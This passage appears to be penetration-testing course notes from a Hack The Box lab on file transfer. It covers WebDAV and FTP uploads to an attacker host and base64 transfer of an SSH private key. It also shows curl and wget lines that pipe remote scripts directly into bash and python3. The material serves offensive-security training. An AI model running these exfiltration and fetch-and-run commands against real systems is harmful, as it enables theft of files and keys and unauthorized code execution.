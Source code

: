 To set up our WebDav server, we need to install two Python modules, `wsgidav` and `cheroot` (you can read more about this implementation here: [wsgidav github](https://github.com/mar10/wsgidav)).

`XeroCyb3r@htb[/htb] sudo pip install wsgidav cheroot`

`XeroCyb3r@htb[/htb] sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`

`C:\htb> dir \\192.168.49.128\DavWWWRoot`

`C:\htb> copy <file path> \\192.168.49.129\DavWWWRoot\`

## FTP Uploads

`XeroCyb3r@htb[/htb] sudo python3 -m pyftpdlib --port 21 --write`

`PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`

`C:\htb> ftp -v -n -s:ftpcommand.txt`

# Linux File Transfer Methods

# Download Operations

## **Base64 Encoding / Decoding**

**Attacker**

`[!bash!] md5sum id_rsa`

`[!bash!] cat id_rsa |base64 -w 0;echo`

**Victim**

`[!bash!] echo -n '<base64>' | base64 -d > id_rsa`

`[!bash!] md5sum id_rsa`

## **Web Downloads with Wget and cURL**

`[!bash!] wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`

`[!bash!] curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

## **Fileless Attacks Using Linux**

`[!bash!] curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

`[!bash!] wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`

## **Download with Bash (/dev/tcp)**
